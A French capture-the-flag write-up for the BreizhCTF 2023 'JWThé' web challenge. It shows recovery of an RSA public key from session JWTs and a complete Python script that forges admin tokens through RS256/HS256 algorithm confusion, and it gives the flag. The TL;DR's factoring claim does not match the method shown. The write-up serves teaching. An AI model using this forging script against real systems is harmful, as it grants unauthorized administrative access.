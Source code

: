 BreizhCTF 2023 - JWThé
==========================

### Challenge details

| Event          | Challenge | Category | Points | Solves |
| -------------- | --------- | -------- | ------ | ------ |
| BreizhCTF 2023 | JWThé     | Web      | ???    | ???    |


![tea](https://media.tenor.com/NCRUevhz9jkAAAAC/tea-good.gif)
    
J'aime le thé ; c'est une communion intemporelle entre le corps et l'esprit ! Retrouvez le livre de recettes de l'enseigne et récupérez le flag.

Auteur: [Zeecka](https://twitter.com/Zeecka_)

https://jwthe.ctf.bzh/

### TL;DR

Le mécanisme de session utilisateur repose sur des JWT utilisant une signature RSA (RS256). L'utilisation d'outils spécialisés permet de récupérer la clé publique RSA à partir de 2 de ces jetons. La clé publique ayant déjà été factorisée (notamment sur factordb), il est  possible de récupérer la clé privée et forger des jetons d'administration.

### Méthodologie

Le site propose une boutique d'achat de boissons.

![home.png](home.png)

Une fois la commande effectuée, nous nous retrouvons avec un récapitulatif, associé à un cookie de session au format [JWT](https://jwt.io/).

![command.png](command.png)

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiJBbGV4IiwiZHJpbmsiOiIxIiwic2l6ZSI6IlMiLCJ0b3BwaW5ncyI6IiIsIm5vdGUiOiJTYW5zIGdsYVx1MDBlN29ucyIsInJvbGUiOiJjbGllbnQiLCJpYXQiOjE2NzU2MzUxMDl9.KPpTKnq1deuV2JTqAZDmezdDVMpohF18sqdDuUNCAsI9AcPcnRmfkClXdNxAIupPSfrciDQ2zhkBonY_geQ3eRlhEAQrdZ3UFVMG5z24JIg16pm-Z0wS---mWkLUtP98SUfv703eOiKZuUJt6mNVlf7Y2J5GDANjpLOEHepRrNI
```

L'énumération des pages à l'aide d'outils comme dirsearch nous permet d'identifier l'endpoint d'administration utilisé pour lister les recettes (but du challenge), à savoir `/recipes` et son alias `/recettes`:

```bash
dirsearch -u "https://jwthe.ctf.bzh" -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
```
```
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 20115

Output: output.txt

Target: https://jwthe.ctf.bzh/

[00:07:33] Starting: 
[00:07:47] 403 -  939B  - /recipes
[00:07:56] 302 -  189B  - /delete  ->  /
[00:09:12] 403 -  939B  - /recettes
[00:09:29] 405 -  153B  - /command

Task Completed
```

![recettes_403.png](recettes_403.png)

Nous pouvons alors tenter d'altérer le JWT afin de constituer un jeton d'administration. Le décodage du jeton à l'aide du site [jwt.io](http://jwt.io/) nous permet d'en savoir plus sur les attributs du jeton.

![jwtio.png](jwtio.png)

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
{
  "firstname": "Alex",
  "drink": "1",
  "size": "S",
  "toppings": "",
  "note": "Sans glaçons",
  "role": "client",
  "iat": 1675635109
}
```

Il s'agit d'un jeton au format `RS256` possédant notamment un attribut "role". L'utilisation des diverses techniques [mentionnées dans PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md) ne permet pas de forger un jeton valide.

Cependant, l'utilisation de l'algorithme `RS256` implique l'utilisation d'une paire de clé RSA. Afin de vérifier la robustesse des clés de signatures, nous pouvons utiliser l'outil [JWT-Key-Recovery](https://github.com/FlorianPicca/JWT-Key-Recovery), utile pour récupérer une clé RSA **publique** à partir de 2 JWT valides:

```bash
python recover.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiJhbGV4IiwiZHJpbmsiOiIxIiwic2l6ZSI6IlMiLCJ0b3BwaW5ncyI6IiIsIm5vdGUiOiIiLCJyb2xlIjoiY2xpZW50IiwiaWF0IjoxNjc1NjM2MDM5fQ.g8bKgcqnvzbr2DPvp_eHAhf_HsIi4B-0VawXG4ygSCLmUNcNHduT4HEBVSWE79-T-qrv5i6tKd0de-v-x49wyYYSz-EKbohA61yat6LCcvpHkbr-VqXNyV2IsW06iuJ6mh2bHGNGwJ96w8rlIPFPQzNOd69xQld1TmfM8zpN7sc eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiJhbGV4IiwiZHJpbmsiOiIxIiwic2l6ZSI6IlMiLCJ0b3BwaW5ncyI6IiIsIm5vdGUiOiIiLCJyb2xlIjoiY2xpZW50IiwiaWF0IjoxNjc1NjM2MDQxfQ.O1FVcAlpU9phb25DUy_eH2eIvv4jKc-z9GhXGsIGwXX2NTkyvSnJP_ykuDsOu5iMCMmUci29cl73OcZIjTj1OWPrQpDpgonl-19xKV_014QJlT6T9NyfsQpcF2XvazfchV1zRbogbq4KKgFDzXW3DBtxtLF4npz1IrYM0fdcgRE
```
```
Recovering public key for algorithm RS256...
Found public RSA key !
n=144643368579758080038799810762792907671669190448854065685922625409060150323780540701698604965270489699974486458103029530366874799597421586371557554188164149588180328577009220855527997708441471901092443236600336620000888420317481366636926577558199654501740076861372892971907237606321053359557829258478318221013
e=65537
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDN+p9a9oMyqRzkae8yLdJcEK0O
0WesH6JiMz+KDrpUwAoAM/KPDnxFnROJDSBHyHEmPVn5x8GqV5lQ9+6l97jdEEcP
o6wkshycM82fgcxOmvtAy4Uoxq/AeplYqplhcUTGVuo4ZldOLmN8ksGmzhWpsOdT
0bkYipHCn5sWZxd21QIDAQAB
-----END PUBLIC KEY-----
```

On récupère ici la clé RSA publique au format ASN1 PEM, ainsi que sous sa forme entière (`n`).
 
Une vulnérabilité courante réside dans le support de plusieurs algorithmes de signature (généralement un algorithme symétrique et un asymétrique):

```python
token = jwt.decode(jeton_base64, secret, algorithms=["RS256", "HS256"])
```

Ici, en supposant que la clé publique RSA est utilisée comme secret vérification de signature (ce qui est généralement le cas), il est possible de forger un jeton valide à l'aide de l'algorithme HS256. En effet, avec cet algorithme symétrique, la clé publique de vérification est similaire à la clé de signature (contrairement à la cryptographie asymétrique).

La génération d'un jeton valide peut être réalisé à l'aide de l'outil [pyJwt](https://pyjwt.readthedocs.io/en/stable/) en prenant soin de changer l'algorithme de signature mais pas la clé, la même structure de contenu et en adaptant le role de notre session:

```python
import jwt  # pip install pyjwt
token = {
    "firstname": "alex",
    "drink": "1",
    "size": "S",
    "toppings": "",
    "note": "",
    "role": "admin",  # on set le rôle admin ici
    "iat": int(time.time())
}

RSA_PUBLIC = open("public.pem").read()
encoded_jwt = jwt.encode(token, RSA_PUBLIC, algorithm="HS256")
print(encoded_jwt)
```
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiJhbGV4IiwiZHJpbmsiOiIxIiwic2l6ZSI6IlMiLCJ0b3BwaW5ncyI6IiIsIm5vdGUiOiIiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2NzY1NjI3MDF9.zs71svw8ONgACFp2IwYn3hGAC-IXuMiR1FEkMx-Vy4w
```

Ce jeton peut ensuite être réinjecté dans notre session pour récupérer le flag sur la page de recette (`/recettes`) :

![flag.png](flag.png)

Voici un script de solve python permettant de résoudre le challenge. Ce dernier se base notamment sur les outils mentionnés plus tôt dans l'article.

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import requests
import jwt
import time
import subprocess

URL = "https://jwthe.ctf.bzh/"

s = requests.session()
data = {
    "firstname": "alex",
    "drink": "1",
    "size": "S",
    "toppings": "",
    "note": ""
}

print(f"[+] Generate 2 JWTokens")
s.post(f"{URL}/command", json=data)
t1 = dict(s.cookies)["session"]
time.sleep(2)
s.post(f"{URL}/command", json=data)
t2 = dict(s.cookies)["session"]

print(t1)
print(t2)

print(f"[+] Recovering public key for algorithm RS256... (this may take some time)")
output = subprocess.check_output(f"python3 recover.py {t1} {t2}", shell=True).decode()

assert("Found public RSA key !" in output)

n = int(output.split("n=")[1].split("\n")[0])
public_key = output.split("-----BEGIN PUBLIC KEY-----")[1].split("-----END PUBLIC KEY-----")[0]
public_key = f"-----BEGIN PUBLIC KEY-----{public_key}-----END PUBLIC KEY-----"

with open("public.pem", "w") as f:
    f.write(public_key)
print(public_key)
print(f"n = {n}")

print(f"[+] Signing new admin token with HS256 and public.pem")
token = {
    "firstname": "alex",
    "drink": "1",
    "size": "S",
    "toppings": "",
    "note": "",
    "role": "admin",  # on set le rôle admin ici
    "iat": int(time.time())
}

RSA_PUBLIC = open("public.pem").read()
encoded_jwt = jwt.encode(token, RSA_PUBLIC, algorithm="HS256")

print(f"[+] Query website with new token and get flag")
s.cookies.set("session", None)  # https://stackoverflow.com/questions/25429754/how-to-modify-cookies-in-requests
s.cookies.set("session", encoded_jwt)
r = s.get(f"{URL}/recettes").text
flag = r.split("recettes: ")[1].split(".")[0]
print(f"[+] Flag is: {flag}")
assert(flag == r"BZHCTF{JWThé_à_la_menthe}")
```

#### Flag

`BZHCTF{JWThé_à_la_menthe}`

Auteur: [Zeecka](https://twitter.com/zeecka_)
